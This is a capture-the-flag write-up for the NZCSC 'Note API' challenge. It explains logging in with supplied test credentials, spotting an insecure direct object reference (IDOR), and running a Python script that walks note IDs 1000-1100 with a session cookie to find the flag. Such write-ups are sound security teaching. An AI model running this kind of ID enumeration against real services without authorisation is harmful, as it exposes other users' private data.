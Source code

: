 # C-4: Note API
>NZCSC is working on creating a note taking application.  
The application is available as an API.  
It is however a work in progress, some endpoints are complete while others are not.  
The documentation for the current version of the API can be found [here](noteAPI.md).

*Unfortunately due to the nature of this challenge we are unable to archive it.*

We are given an OpenAPI specification for a note API. The endpoints can all be accessed at `/challenge4/api.php`.

Most requests to this give back `{ "error": "Unauthorized" }` suggesting we need to login first. Conveniently the username and password are provided at the top of the API specification: `Use username=eve, password=letm3in for testing`.

Sending this in the form of a POST request to `/challenge4/api.php/login` in the form of JSON data gives `{ "message": "Login successful" }` and gives us a PHPSESSID cookie to store. 

We can modify our requests to include this by adding the header `Cookie: PHPSESSID=5b46175213f56d5117a5f71bd1146a18; path=/`. 

To test, we can request `/notes` to see a list of all the current user's notes:

![A screenshot of JSON data showing contents of various notes](notes.png)

These notes have notably (ha) consecutive IDs, which suggests that an IDOR attack (insecure direct object reference) may be possible. We can test this by requesting note 1040, which is not owned by our user. Requesting `/note/1040` gives `{ "id": 1040, "title": "Tech Projects", "content": "Learn Docker" }`. This shows that we are allowed to view notes beyond our own.

It is now a matter of checking more IDs. The script below simply prints the contents of the notes from 1000-1100 (notes below 1000 return `Note not found`):
```python
import http.client

conn = http.client.HTTPSConnection("ctf.nzcsc.org.nz")
payload = ''
headers = {
  'Cookie': 'PHPSESSID=5b46175213f56d5117a5f71bd1146a18; path=/'
}

for i in range(1000, 1100):
  conn.request("GET", "/challenge4/api.php/note/"+str(i), payload, headers)
  res = conn.getresponse()
  data = res.read()
  print(data.decode("utf-8"))
```

and running this shows the flag at ID 1077: `{"id": 1077, "title": "Reading", "content": "FLAG[ABBBB77F699E23DD]" }`.